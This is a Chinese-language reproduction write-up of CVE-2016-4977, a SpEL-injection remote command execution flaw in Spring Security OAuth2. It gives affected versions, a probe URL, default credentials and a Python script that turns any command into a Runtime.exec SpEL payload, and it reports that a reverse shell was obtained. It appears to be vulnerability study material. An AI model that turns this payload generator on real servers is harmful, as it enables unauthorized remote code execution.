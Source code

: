 （CVE-2016-4977）Spring Security OAuth2 远程命令执行漏洞
========================================================

一、漏洞简介
------------

Spring Security OAuth 是为 Spring
框架提供安全认证支持的一个模块。在其使用 whitelabel views
来处理错误时，由于使用了Springs Expression Language
(SpEL)，攻击者在被授权的情况下可以通过构造恶意参数来远程执行命令。

二、漏洞影响
------------

Spring Security OAuth 2.0.0版本至2.0.9版本Spring Security OAuth 1.0.0版本至1.0.5版本中

三、复现过程
------------

访问`http://www.0-sec.org:8080/oauth/authorize?response_type=${233*233}&client_id=acme&scope=openid&redirect_uri=http://test`。首先需要填写用户名和密码，我们这里填入`admin:admin`即可。

可见，我们输入是SpEL表达式`${233*233}`已经成功执行并返回结果：

![1.png](resource/(CVE-2016-4977)SpringSecurityOAuth2远程命令执行漏洞/media/rId24.png)

然后，我们使用poc.py来生成反弹shell的POC（注意：\[Java反弹shell的限制与绕过方式要在这个网站进行转码\]

    http://www.jackson-t.ca/runtime-exec-payloads.html
    CVE-2016-4977.py
    #!/usr/bin/env python

    message = input('Enter message to encode:')

    poc = '${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)' % ord(message[0])

    for ch in message[1:]:
       poc += '.concat(T(java.lang.Character).toString(%s))' % ord(ch) 

    poc += ')}'

    print(poc)

![2.png](resource/(CVE-2016-4977)SpringSecurityOAuth2远程命令执行漏洞/media/rId25.png)

如上图，生成了一大串SpEL语句。附带上这个SpEL语句，访问成功弹回shell：

![3.png](resource/(CVE-2016-4977)SpringSecurityOAuth2远程命令执行漏洞/media/rId26.png)
